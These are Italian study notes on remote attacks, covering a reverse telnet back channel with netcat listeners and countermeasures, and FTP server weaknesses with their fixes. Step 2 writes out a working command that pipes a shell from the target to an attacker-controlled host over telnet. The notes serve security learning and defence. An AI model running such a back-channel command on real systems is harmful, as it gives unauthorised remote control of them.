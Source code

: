 Il reverse telnet utilizza i servizi telnet per creare un canale posteriore dal sistema di destinazione al sistema dell'attaccante.

1. L'attaccante esegue i seguenti comandi in due finestre separate sul sistema dell'attaccante
```terminal
nc -l -n -v -p 80
nc -l -n -v -p 25
```
![[Pasted image 20250515221314.png]]

2. L'attaccante sfrutta una vulnerabilità per eseguire il seguente comandonel sistema di destinazione
```terminal
telnet 192.168.56.102 80 | sh | telnet 192.168.56.102 25
```
![[Pasted image 20250515221419.png]]

3. Ora le finestre di shell dell'aggressore sono collegate al sistema di destinazione.
![[Pasted image 20250515221457.png]]

4. L'aggressore esegue un comando nella prima finestra su sistema dell'aggressore. Il sistema di destinazione legge il comando, lo esegue localmente e restituisce il risultato alla seconda finestra dell'aggressore.
![[Pasted image 20250515221544.png]]

### Back-Channel Countermeasures

- Disattivare i servizi non necessari
- Rimuovere X dai sistemi ad alta sicurezza (no xterm)
- Eseguire il server web come "nobody" e negare a "nobody" i permessi di esecuzione per telnet
	- ```chmod 750 telnet```
- Alcuni firewall possono consentire di bloccare le connessioni al server Web o ai sistemi interni.

### Common Types of Remote Attacks

### FTP
- I server FTP a volte permettono agli utenti anonimi di caricare i file.
- Accesso anonimo + directory scrivibile in tutto il mondo
- Una configurazione errata può consentire l'attraversamento delle directory
	- Accesso a file sensibili
- Overflow del buffer e altre vulnerabilità
	- Vulnerabilità della stringa di formato "site exec" in wu-ftp consente l'esecuzione di codice arbitrario come root

#### Contromisure
- Evitare l'FTP se possibile
- Applicare una patch al server FTP
- Configurare accuratamente il server
- NO directory scrivibili in tutto il mondo, a meno che non sia necessario
- Lo stesso vale per l'accesso anonimo
